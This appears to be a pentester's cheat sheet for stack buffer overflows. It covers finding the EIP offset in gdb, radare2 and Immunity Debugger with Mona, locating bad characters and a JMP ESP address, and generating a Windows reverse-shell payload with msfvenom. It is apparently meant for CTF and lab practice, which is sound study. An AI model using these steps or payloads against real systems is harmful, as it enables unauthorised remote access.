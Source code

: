 # Buffer Overflow

# Find EIP offset

## gdb

- search for input

```
> run
input:
AAAAAAAAAAA

> search-pattern AAAAAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x804d000-0x806f000), permission=rw-
 0x804d1a0 - 0x804d1aa → "AAAAAAAA\\n"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
 0xffffd00c - 0xffffd014 → "AAAAAAAA"

>  i f
Stack level 0, frame at 0xffffd080:
 eip = 0x804935a in vuln; saved eip = 0x80493dd
 called by frame at 0xffffd0b0
 Arglist at 0xffffcfec, args:
 Locals at 0xffffcfec, Previous frame's sp is 0xffffd080
 Saved registers:
 ebx at 0xffffd074, ebp at 0xffffd078, eip at 0xffffd07c

> python print(0xffffd07c - 0xffffd00c)
112

```

- cyclic pattern

```
## Create pattern
# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150
# gdb-peda
gdb-peda$ pattern create 150
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'
# gdb-pwndbg
pwndbg> cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
# gdb-gef
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
[+] Saved as '$_gef0'

## Feed the pattern to the binary within gdb
## Search EIP value to get offset
# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_offset -q 0xdeadbeef
# gdb-peda
db-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
# gdb-pwndbg
pwndbg> cyclic -l 0x6161616c
44
# gdb-gef
gef➤ pattern offset 0x6161616c
[+] Searching for '0x6161616c'
[+] Found at offset 44 (little-endian search) likely
[+] Found at offset 41 (big-endian search)

```

## r2

- use metasploit cyclic pattern

```
$ r2 -d vuln
glibc.fc_offset = 0x00148
[0xf7f90070]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Finding and parsing C++ vtables (avrr)
[x] Skipping type matching analysis in debugger mode (aaft)
[x] Propagate noreturn information (aanr)
[x] Use -AA or aaaa to perform additional experimental analysis.
[0xf7f90070]> dc
Please enter your string:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Okay, time to return... Fingers Crossed... Jumping to 0x35624134
[+] SIGNAL 11 errno=0 addr=0x35624134 code=1 si_pid=895631668 ret=0
[0x35624134]> dr
eax = 0x00000041
ebx = 0x41326241
ecx = 0x00000041
edx = 0xffffffff
esi = 0x00000001
edi = 0x080490e0
esp = 0xffc71be0
ebp = 0x62413362
eip = 0x35624134
eflags = 0x00010282
oeax = 0xffffffff
[0x35624134]> exit
Do you want to quit? (Y/n) y
Do you want to kill the process? (Y/n) y

## Search offset
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35624134
[*] Exact match at offset 44

```

## cmdline

# Immunity Debugger + Mona

- Set Mona Working Folder

```
!mona config -set workingfolder c:\\mona\\%p

```

- Generate pattern

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pattern_create 3000

```

- After crash, note EIP value then identify the offset:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 2012

```

- Compare memory with bytearray to find bad chars

```
!mona bytearray
!mona compare -a esp -f c:\\path\\to\\bytearray.bin

```

- Find JMP ESP Address

```
!mona jmp -r esp

```

- Generate shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f c -b "\\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -b "\\x00" -f python EXITFUNC=thread

```

- Generate byte string

```
for x in range(1, 256):
  print("\\\\x" + "{:02x}".format(x), end='')
print()

```

## Links

---

### Guides

### Writeups

- [https://cd6629.gitbook.io/ctfwriteups/buffer-overflow-wlk/brainstorm-w](https://cd6629.gitbook.io/ctfwriteups/buffer-overflow-wlk/brainstorm-w)
- [https://noxious.tech/posts/Brainstorm/](https://noxious.tech/posts/Brainstorm/)
